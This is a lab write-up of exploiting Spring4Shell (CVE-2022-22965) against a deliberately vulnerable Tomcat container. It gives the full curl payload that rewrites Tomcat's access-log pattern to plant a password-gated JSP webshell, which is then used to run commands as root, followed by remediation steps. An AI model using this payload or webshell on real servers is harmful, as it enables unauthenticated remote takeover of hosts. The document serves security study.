







# Spring4Shell (CVE-2022-22965) — Apache Tomcat/Spring MVC Remote Code Execution


> Full unauthenticated remote code execution achieved against a deliberately vulnerable Spring MVC
> application, by abusing Spring's data-binding to reach into Tomcat's internal logging valve and
> plant a JSP webshell — no pre-built exploit scripts, every step built and debugged by hand.

---

## Overview

| | |
|---|---|
| **CVE** | [CVE-2022-22965](https://tanzu.vmware.com/security/cve-2022-22965) (Spring4Shell) |
| **Target** | Spring Framework 5.3.17 (Spring WebMVC), deployed as WAR on Apache Tomcat 8.5.77 |
| **Environment** | Vulhub `vulhub-spring-1`, isolated Docker container |
| **Vulnerability class** | Unsafe Data Binding → Property Override → Remote Code Execution |
| **CVSS v3.1** | 9.8 (Critical) |
| **Preconditions** | JDK 9+, WAR deployment on Tomcat (not an executable Spring Boot JAR) |
| **Outcome** | Arbitrary code execution as root, confirmed via live webshell (`id` → `uid=0(root)`) |

## Table of Contents
- [Attack Chain Summary](#attack-chain-summary)
- [Step 1 — Target Recon & Version Confirmation](#step-1--target-recon--version-confirmation)
- [Step 2 — Baseline Application Behavior](#step-2--baseline-application-behavior)
- [Step 3 — Injection Payload](#step-3--injection-payload)
- [Step 4 — Webshell Written to Disk](#step-4--webshell-written-to-disk)
- [Step 5 — Clearing the Pattern](#step-5--clearing-the-pattern)
- [Step 6 — RCE Confirmed](#step-6--rce-confirmed)
- [Debugging Notes: Two Real Bugs Hit Along the Way](#debugging-notes-two-real-bugs-hit-along-the-way)
- [Full Command Reference](#full-command-reference)
- [Impact](#impact)
- [Remediation](#remediation)

---

## Attack Chain Summary

```
Attacker                          Spring MVC App (Tomcat, root)
   |                                        |
   |--- HTTP GET w/ crafted binding params ->|
   |      class.module.classLoader....       |
   |      .pipeline.first.pattern=<JSP>      |
   |                                        |--- Data binder resolves nested
   |                                        |    property path via reflection
   |                                        |--- Reaches Tomcat's AccessLogValve
   |                                        |--- Overwrites its log "pattern"
   |                                        |    with embedded JSP scriptlet
   |                                        |
   |--- Any subsequent request ------------>|
   |                                        |--- Log line written using
   |                                        |    poisoned pattern
   |                                        |--- File flushed to
   |                                        |    webapps/ROOT/tomcatwar.jsp
   |                                        |
   |--- GET /tomcatwar.jsp?cmd=id --------->|
   |                                        |--- JSP executes as root
   |<--- uid=0(root) gid=0(root) -----------|
```

---

## Step 1 — Target Recon & Version Confirmation

Confirmed the vulnerable container was running and identified the exact Spring, JDK, and
deployment configuration — all four preconditions for CVE-2022-22965 had to line up.

```bash
docker ps
docker exec vulhub-spring-1 find / -name "spring-webmvc*.jar" 2>/dev/null
docker exec vulhub-spring-1 find / -name "spring-beans*.jar" 2>/dev/null
docker exec vulhub-spring-1 java -version
docker exec vulhub-spring-1 find / -name "*.war" 2>/dev/null
```


| Requirement | Found | Status |
|---|---|---|
| Spring Framework 5.3.0–5.3.17 | **5.3.17** | ✅ exactly at the edge of vulnerable range |
| JDK 9+ | **JDK 11.0.14.1** | ✅ |
| Deployed as WAR on Tomcat | `/usr/local/tomcat/webapps/ROOT.war` | ✅ |
| Container isolation (no host mounts) | `[]` | ✅ verified before exploitation |

---

## Step 2 — Baseline Application Behavior

The target is a minimal Spring MVC app binding `name` and `age` query parameters onto a `Person`
object and reflecting them back in an HTML response — the classic Spring4Shell demo shape.

```bash
curl -s "http://localhost:8080/?name=Umer&age=25"
```


**App's own source, confirming the binding target:**
```
/usr/local/tomcat/webapps/ROOT/WEB-INF/classes/org/vulhub/spring4shell/model/Person.class
/usr/local/tomcat/webapps/ROOT/WEB-INF/classes/org/vulhub/spring4shell/controller/HelloController.class
```

This `name`/`age` binding is exactly the surface CVE-2022-22965 abuses — Spring's data binder
doesn't restrict which nested properties can be set via query parameters, so a crafted parameter
name can walk the object graph far beyond the intended `Person` fields.

---

## Step 3 — Injection Payload

Sent a GET request with a specially crafted parameter name that walks from the bound `Person`
object through `class.module.classLoader` and into Tomcat's internal `AccessLogValve`, overwriting
its **log pattern** with an embedded JSP scriptlet.

```bash
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" -G "http://localhost:8080/" \
  -H "suffix: %>//" -H "c1: Runtime" -H "c2: <%" \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat='
```


**Why the HTTP headers (`suffix`, `c1`, `c2`) are used:** Tomcat's log pattern syntax supports
`%{headerName}i` to insert the value of an incoming request header directly into the log output.
Since raw `<%`, `Runtime`, and `%>` characters can't safely go inside the pattern string itself,
they're smuggled in via headers and substituted at log-write time — turning an innocuous-looking
log line into valid JSP.

**HTTP 200** — the request is accepted normally; Spring's data binder doesn't reject or flag the
crafted property path, since from its perspective this is just an ordinary (if deeply nested)
property assignment.

---

## Step 4 — Webshell Written to Disk

The log write (and therefore the file write) only happens once Tomcat's buffered access log
actually flushes — not instantly on the injection request itself. A follow-up request forces the
flush.

```bash
curl -s "http://localhost:8080/" > /dev/null
sleep 2
docker exec vulhub-spring-1 ls -la /usr/local/tomcat/webapps/ROOT/ | grep tomcatwar
docker exec vulhub-spring-1 cat /usr/local/tomcat/webapps/ROOT/tomcatwar.jsp
```


**Result:** `tomcatwar.jsp` (249 bytes) appears inside the live webapp directory, containing a
correctly-formed scriptlet:
```jsp
<% if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %>
```
(Full content: [`raw-output/06-webshell-content.txt`](raw-output/06-webshell-content.txt))

---

## Step 5 — Clearing the Pattern

Every subsequent request also gets logged using the same poisoned pattern, appending more lines to
the webshell file. Left unchecked, this grows the file indefinitely and adds noise to future
webshell calls. Clearing the pattern stops further injection without needing to remove the file.

```bash
curl -s -G "http://localhost:8080/" \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.pattern='
```


---

## Step 6 — RCE Confirmed

```bash
curl -s "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id" -o /tmp/clean_shell.txt
cat /tmp/clean_shell.txt
```


**Result:**
```
uid=0(root) gid=0(root) groups=0(root)
```
(Full output: [`raw-output/07-rce-confirmed.txt`](raw-output/07-rce-confirmed.txt))

Unauthenticated remote code execution confirmed, running as **root**, via a JSP webshell planted
entirely through Spring's data binding — no file upload, no direct filesystem access, no
authentication required.

---

## Debugging Notes: Two Real Bugs Hit Along the Way

### Bug #1 — Tomcat's access log is buffered, not written instantly
The injection request itself always returned a clean `HTTP 200`, but the JSP file didn't
immediately appear on disk. Tomcat's `AccessLogValve` buffers writes and only flushes periodically
or after enough log volume accumulates — a single request isn't guaranteed to trigger a flush.

**Fix:** send one or more follow-up requests (and/or a short `sleep`) after the injection to force
the buffered writer to flush before checking for the file.

### Bug #2 — Deleting an open file doesn't free it on Linux
After a successful exploitation run, the webshell file was deleted with `rm` to "clean up" before
re-testing. Re-running the exact same injection afterward produced clean `HTTP 200` responses with
no errors — yet the file never reappeared on subsequent checks.

**Root cause:** on Linux, deleting a file that a process still has open only removes its directory
entry — the inode stays allocated and the process's existing file descriptor keeps writing into
that now-unlinked, invisible file. Since Tomcat's log valve opens its target file once and holds
the handle open (rather than reopening it per write), the `rm` silently orphaned the actual data
sink: every subsequent "successful" injection was actually writing into a file with no name.

**Fix:** restart the container (`docker restart vulhub-spring-1`) to force Tomcat to fully
reinitialize its logging valve and open a fresh file handle, rather than deleting the log file
out from under a still-running process.

```bash
docker exec vulhub-spring-1 rm /usr/local/tomcat/webapps/ROOT/tomcatwar.jsp
curl -s "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id" -o /tmp/clean_check.txt
cat /tmp/clean_check.txt
# -> HTTP 404, file genuinely gone (confirmed AFTER container restart)
```


---

## Full Command Reference

```bash
# --- Recon ---
docker ps
docker exec vulhub-spring-1 find / -name "spring-webmvc*.jar" 2>/dev/null
docker exec vulhub-spring-1 find / -name "spring-beans*.jar" 2>/dev/null
docker exec vulhub-spring-1 java -version
docker exec vulhub-spring-1 find / -name "*.war" 2>/dev/null
docker inspect vulhub-spring-1 --format '{{json .Mounts}}'

# --- Baseline behavior ---
curl -s "http://localhost:8080/?name=Umer&age=25"

# --- Injection payload ---
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" -G "http://localhost:8080/" \
  -H "suffix: %>//" -H "c1: Runtime" -H "c2: <%" \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar' \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat='

# --- Force log flush / confirm webshell written ---
curl -s "http://localhost:8080/" > /dev/null
sleep 2
docker exec vulhub-spring-1 ls -la /usr/local/tomcat/webapps/ROOT/ | grep tomcatwar
docker exec vulhub-spring-1 cat /usr/local/tomcat/webapps/ROOT/tomcatwar.jsp

# --- Clear the pattern (stop further poisoning) ---
curl -s -G "http://localhost:8080/" \
  --data-urlencode 'class.module.classLoader.resources.context.parent.pipeline.first.pattern='

# --- Trigger the webshell ---
curl -s "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id" -o /tmp/clean_shell.txt
cat /tmp/clean_shell.txt
```

---

## Impact

Unauthenticated remote code execution achievable with a single crafted HTTP request against any
Spring MVC/WebFlux application meeting the four preconditions (Spring 5.2.x/5.3.x, JDK 9+, WAR
deployment on Tomcat). In this lab, execution occurred as **root**. In a real deployment this
enables full host compromise, lateral movement, data exfiltration, or persistence via planted
webshells — comparable in severity to Log4Shell, though with a narrower set of preconditions.

## Remediation

- Upgrade to **Spring Framework 5.3.18+ / 5.2.20+** (patched versions restrict which class
  properties can be bound, closing the reflection path entirely).
- If upgrade isn't immediately possible, add an explicit `WebDataBinder` disallowed-fields
  configuration to block `class.*` property paths from being bound:
  ```java
  @InitBinder
  public void initBinder(WebDataBinder binder) {
      String[] denylist = {"class.*"};
      binder.setDisallowedFields(denylist);
  }
  ```
- Deploy as an executable Spring Boot JAR rather than a WAR on external Tomcat where possible —
  the embedded servlet container configuration removes this specific attack path.
- Restrict write access to `webapps/` directories at the OS/container level, so even a successful
  property-binding attack can't result in a file landing inside a servable directory.
- Monitor for unexpected `.jsp` files appearing in web-accessible directories at runtime.

---

**Disclaimer:** This exercise was performed entirely against a self-hosted, deliberately
vulnerable Docker container (Vulhub) on an isolated local network, for educational and portfolio
purposes. No production systems, third-party infrastructure, or external targets were involved.
